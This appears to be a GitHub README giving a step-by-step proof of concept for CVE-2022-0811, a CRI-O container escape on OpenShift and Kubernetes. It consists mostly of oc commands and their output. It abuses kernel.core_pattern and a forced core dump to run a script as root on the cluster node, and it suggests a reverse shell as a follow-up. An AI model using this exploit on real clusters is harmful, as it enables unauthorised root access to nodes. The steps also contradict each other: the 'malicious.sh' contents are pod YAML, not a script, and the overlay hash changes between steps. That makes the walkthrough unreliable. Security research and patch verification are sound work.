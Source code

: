 # Proof of Concept: Leveraging CVE-2022-0811 to Compromise Kubernetes 
##### Many thanks to CrowdStrike cloud security researchers.  This quick quide was created with their findings and tailored for OpenShift specifically.

## Description
A flaw was found in CRI-O in the way it set kernel options for a pod. This issue allows anyone with rights to deploy a pod on a Kubernetes cluster that uses the CRI-O runtime to achieve a container escape and arbitrary code execution as root on the cluster node, where the malicious pod was deployed.

## Directly Affected Software
- CRI-O version 1.19+

## Indirectly Affected Software and Platforms
### While the vulnerability is in CRI-O, software and platforms that depend on it are also likely to be vulnerable, including:
- OpenShift 4.6+
- Oracle Container Engine for Kubernetes

## Remediation
- ### [Red Hat OpenShift - CVE-2022-0811](https://access.redhat.com/security/cve/cve-2022-0811)

## External References
- ### [CrowdStrike](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)
- ### [GitHub cri-o](https://github.com/cri-o/cri-o/security/advisories/GHSA-6x2m-w449-qwx7)

# Overview
#### This proof of concept (POC) uses a malicious PodSpec to set the kernel.core_pattern kernel parameter, which specifies how the kernel should react to a core dump. In this case, we’ll tell it to execute a binary hosted in another pod. That binary will be run as root outside of any container. Finally, we’ll trigger a core dump causing the kernel to invoke the malicious executable.

# Startup Pod to Host Malicious Executable
```
$ oc create -f ./malicious-script-host.yaml

pod/malicious-script-host created
```


# Determine Root Path From Host Mount Namespace
#### This is the path to the root of the container from the perspective of the kernel.
```
$ oc exec malicious-script-host -- mount | grep overlay | awk -F, '{ print $6 }'

upperdir=/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e/diff
```

# Copy contents of malicious.sh
```
$ oc exec malicious-script-host -- /bin/bash -c "cat <<EOF > /tmp/malicious.sh
apiVersion: v1
kind: Pod
metadata:
  name: malicious-script-host
spec:
  containers:
  - name: ubi-8
    image: registry.access.redhat.com/ubi8/ubi:8.5-236
    command: ["tail", "-f", "/dev/null"]
EOF"
```
# Modify script permissions and verify
```
$ oc exec malicious-script-host -- /bin/bash -c 'chmod 755 /tmp/malicious.sh && ls -al /tmp/malicious.sh'

-rwxr-xr-x. 1 root root 197 Mar 17 19:22 /tmp/malicious.sh
```


# Use Second Pod to Point Core Pattern to Malicious Script
### NOTE: You must ensure this pod runs on the same node as the malicious script pod. 

```
$ oc create -f ./sysctl-set.yaml

pod/sysctl-set created
```
```
$ oc get pods

NAME                    READY   STATUS              RESTARTS   AGE
malicious-script-host   1/1     Running             0          14m
sysctl-set              0/1     ContainerCreating   0          68s
```
### Whether or not the sysctl-set pod starts, it will successfully update the node-wide core_pattern to point into our malicious-script-host container. 
```
$ oc exec malicious-script-host -- /bin/bash -c "cat /proc/sys/kernel/core_pattern"

|/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e6/diff/tmp/malicious.sh #
```

# First enable core dumps:
```
$ oc exec malicious-script-host -- /bin/bash -c "ulimit -c unlimited && ulimit -c"

unlimited
```

#### Note for ubi8 image ps will need to be installed via
```
$ oc exec malicious-script-host -- /bin/bash -c "yum install procps-ng -y && ps --version"

Installed:
  procps-ng-3.3.15-6.el8.x86_64
ps from procps-ng 3.3.15
```
# Now trigger the core dump:
```
$ oc exec -it malicious-script-host -- /bin/bash

$ tail -f /dev/null &
```
```
$ ps

PID   USER     TIME  COMMAND
    1 root      0:00 tail -f /dev/null
   34 root      0:00 /bin/bash
   42 root      0:00 tail -f /dev/null
   43 root      0:00 ps
```

```
$ kill -SIGSEGV 42

[1]+  Segmentation fault (core dumped) tail -f /dev/null
```

# Verify Malicious Script Ran :boom: :beer:

```
$ oc exec malicious-script-host -- /bin/bash -c 'cat /output'

Wed Feb 23 14:20:07 UTC 2022
root
ocp-cluster
```
##### This script was invoked by the kernel outside of the container namespace with root privileges. A real attacker could, as an example, run a reverse shell and gain full control of the node.
